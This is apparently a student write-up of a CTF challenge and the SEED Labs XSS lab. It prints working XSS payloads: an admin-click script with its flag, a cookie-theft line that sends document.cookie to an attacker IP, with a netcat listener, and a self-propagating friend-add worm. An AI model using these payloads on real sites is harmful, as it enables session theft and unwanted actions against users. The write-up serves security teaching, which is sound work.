 # CTF

## Challenge 1

### Recon

- We started by sending a random request just to see what would happen. 
- It was rejected after a while, but we noticed that our input would go in the HTML of the page, without any protection.
- After we send the request two disabled buttons are revealed, including the one that sends the flag, the one we want the admin to click. 

### Vulnerability

We realized that, if our input goes in the HTML code without any protection, we are able to inject code. Using script tags (`<script>`), we are able to inject JavaScript in the page.

After inspecting the button that gives the flag, we got its id: `giveflag`. We need the admin to click on said button, there is no use in pressing it ourselves, as we don't have the necessary permissions. Our goal was to send a request that, when received by the admin, would click the button instantly. For that, we used JavaScript's `click()` method. 

So, after sending the input `<script> document.getElementById("giveflag").click() </script>` and wanting the 2 minutes, we got the flag - `flag{aee2a3da1e8e9588d6f60b6c02bdf0e5}`

# SEED Labs

## Cross-Site Scripting (XSS) Attack Lab

### Task 1: Posting a Malicious Message to Display an Alert Window

- We started by doing the setup, including the DNS and server setups, as we did for the previous lab. 

- This time we also installed the Firefox add-on *HTTP Header Live*, with the goal of capturing and analyze HTTP requests.

- To display an alert window, we just embedded the JavaScript code `<script>alert('XSS');</script>` in the `Brief description` field of a random profile (in this case Alice's). This causes an alert window with the message *XSS* to be displayed each time a user accesses Alice's profile.

![Task 1](images/alice_alert.png "Task 1: Displayed an alert window on Alice's profile")

### Task 2: Posting a Malicious Message to Display Cookies

- To display the user's cookies in an alert window on a profile, we embedded the JavaScript code `<script>alert(document.cookie);</script>` in the `Brief description` field of Alice's profile (yet again). This causes an alert window displaying the viewer's cookies to appear each time a user accesses Alice's profile.

![Task 2](images/alice_cookies.png "Task 2: Displayed an alert window with the viewer's cookies on Alice's profile")

### Task 3: Stealing Cookies from the Victim’s Machine

- This time around, our goal is to get the cookies of the visitors of a profile, but in such a way that only the we, the attackers, can see. To achieve this, we want a *HTTP GET* request to be sent to the our machine containing the user's cookies. It can be done by having the malicious JavaScript insert an `<img>` tag with its `src` attribute set to the our machine. When the JavaScript inserts the `img` tag, the browser tries to load the image from the URL in the `src` field. The *HTTP GET* request, will then, be sent to the port we will specify in the referred `src` field, in this case the `port 5555`.

- We executed this by embedding the following script `<script>document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + ' >');</script>` once again in the `Brief description` field of Alice's profile.

- Finnaly we set up a TCP server to listen the `port 5555`, using the commmand `nc -lknv 5555`, in order to obtain the *HTTP GET* request containing the cookies.

![Task 3](images/netcat_cookies.png "Task 3: HTTP GET request containing the user's cookies")

### Task 4: Becoming the Victim’s Friend

- The objective of this task is to write an XSS worm that adds Samy as a friend to any other user that visits Samy’s page. In order to write said worm we needed to understand the structure of the *HTTP* request for adding friends. To do that we used the aforementioned *HTTP Header Live* Firefox add-on.

- We observed that when a user added Samy to his friend list the *HTTP* request would be something like : `http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1639964237&__elgg_token=ueHP3gyKeBB3z1PSar2LFg&__elgg_ts=1639964237&__elgg_token=ueHP3gyKeBB3z1PSar2LFg`. Basically it would always be `http://www.seed-server.com/action/friends/add?friend=59` plus the security tokens twice, with the number 59 being the identifier for Samy, as it changed when we tried to add users other than Samy as friends.

- Using the code skeleton provided for us, we embedded the following JavaScript code in the `About Me` field of Samy's profile:

```js
<script type="text/javascript">
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
//Construct the HTTP request to add Samy as a friend.
console.log("TS TKN: " + ts);
console.log("TKN TKN: " + token);
var sendurl= "/action/friends/add?friend=" + "59" + ts + token + ts + token; //FILL IN
//Create and send Ajax request to add friend
Ajax=new XMLHttpRequest();
Ajax.open("GET", sendurl, true);
Ajax.send();
}
</script>
```

- It worked as intended! For example, Charlie's friend list looked like this initially:

![Task 4](images/charlie_friends_init.png "Task 4: Charlie's empty friend list")

- And changed to this, after only visiting Samy's profile:

![Task 4](images/charlie_friends_samy.png "Task 4: Charlie's friend list after visiting Samy's profile")
